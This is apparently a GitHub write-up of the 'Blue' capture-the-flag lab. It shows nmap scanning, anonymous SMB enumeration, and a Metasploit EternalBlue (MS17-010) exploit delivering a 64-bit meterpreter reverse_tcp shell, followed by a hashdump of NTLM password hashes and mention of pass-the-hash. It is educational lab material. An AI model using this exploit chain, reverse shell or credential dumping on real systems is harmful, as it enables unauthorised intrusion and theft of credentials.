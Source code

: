 # New-Capstone-Lab-Blue-Machine-

<h2>**IP Address provided: 10.0.2.5**</h2>

This repository provides a comprehensive guide to the Blue Machine which is a Capture the Flag (CTF) challenge designed to test your skills in network scanning, web application testing, password cracking, privilege escalation, and system exploitation. This machine provides an opportunity to utilise a variety of tools and techniques commonly used in real-world penetration testing. You will encounter a combination of web-based vulnerabilities, system misconfigurations, and network-related challenges.

### Features:
- NMAP ()
- Metasploit (Framework)
Metasploit is a penetration testing framework that helps security professionals identify and exploit vulnerabilities in networks, systems, and applications

### Prerequisites:
Before starting the Academy Machine challenge, it is recommended to have basic knowledge and hands-on experience with the following tools and concepts:

- Metasploit

<h2>Environments Used </h2>

- <b>Linux</b>
- <b>Windows</b>

<h2>Walk-through:</h2>

Started out by using Nmap to dearch for open ports on the target 10.0.2.5

nmap -A -p- -T4 10.0.2.5

![image](https://github.com/user-attachments/assets/801f2eaf-bd8b-466e-aa1c-920ccb0aa0c0)

I can see that port 139 tcp netbios-ssn Microsoft Windows netbios-ssn is open  
I can also see that port 445 tcp Windows 7 Ultimate 7601 Service Pack 1 Microsoft-ds (workgroup: WORKGROUP)

I will research the exploits for both of these.

**Port 139**  
NetBIOS stands for Network Basic Input Output System. It is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network. Software applications that run on a NetBIOS network locate and identify each other via their NetBIOS names. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one (the client) sends a command to “call” another client (the server) over TCP Port 139

**Port 445**  
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’. Server Message Block in modern language is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.  
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**

I decided to attempt port 445 first as this was the one that stood out the most to me.

I listed the SMB shares using smbclient -L 10.0.2.5 and was asked for a password, i hit enter and ws able to view the share names.

I tried accessing admin with no password.  
smbclient \\10.0.2.5\ADMIN$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I tried accessing C$ with no password.  
smbclient \\10.0.2.5\C$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I was able to access IPC$ with no password.  
smbclient \\10.0.2.5\IPC$  
Password for [WORKGROUP\kali]:  
Try "help" to get a list of possible commands.

i tried ls  
smb: > ls  
NT_STATUS_INVALID_PARAMETER listing *

Further information gathering found this port 445 has an exploit called eternal blue.

![image](https://github.com/user-attachments/assets/6e6eb516-bddf-47bd-92a7-74d113102505)

Using Metasploit i searched for eternal blue and a few come up, i decided to use an auxiliary to start off with as this will be a check before launching an attack.

Unfortunately my windows lab crashed so i received connection time out.

Restarted the windows lab and retested.

msfconsole reloaded and ran search for eternal blue

![image](https://github.com/user-attachments/assets/2383d7df-56ef-40d7-acfb-d13f890170ec)

used no 1 (use 1)  
options  
set RHOSTS to IP Address of the machine scanning.  
Run the scan against the machine.

[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed

Now we have confirmed that the system is vulnerable to eternal blue we look at what exploits are available.  
search eternal blue to bring up the menu again.  
no 3 looks promising so we will use this one as the other says win8 and we know its a windows 7 machine.

use 3  
options  
set rhosts to IP Address  
this module has a check feature so lets check it.

Type check and enter  
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.0.2.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check  
[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[+] 10.0.2.5:445 - The target is vulnerable.

This shows the same as the scanner so we know this should work.

So we now need to set a payload.

We know from the previous scans that this machine is 64 bit and sometimes payloads are set to 32bit so we need to be on the safe side and set the payload to 64bit.  
we are also going to use a meterpreter shell as we want a nice interface and we are going to set a reverse-tcp

Type in options.  
Set LHOST to eth0 or your IP Address.

RUN this

![image](https://github.com/user-attachments/assets/50d7aa97-413b-4d8f-a12a-e72c4bcc4642)

set payload windows/x64/meterpreter/reverse_tcp

Run  
This will run through trying to access, sometimes it wont happen the first time so give another go. Mine worked first time which was great.

Sorry, my screenshot wouldnt work so i took a picture of the screen.

![image](https://github.com/user-attachments/assets/459ae81b-4061-4093-a6d7-d429950a640d)

Eternal Blue has been out for sometime now but is still successful in infiltrating machines that have not been updated or cant be updated.

Type in Hashdump.

meterpreter > hashdump  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::  
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

Now we have the hashes for the Administrator, Guest, Home Group and User:1000.

We can use this to try and crack it, we can use pass the hash etc.




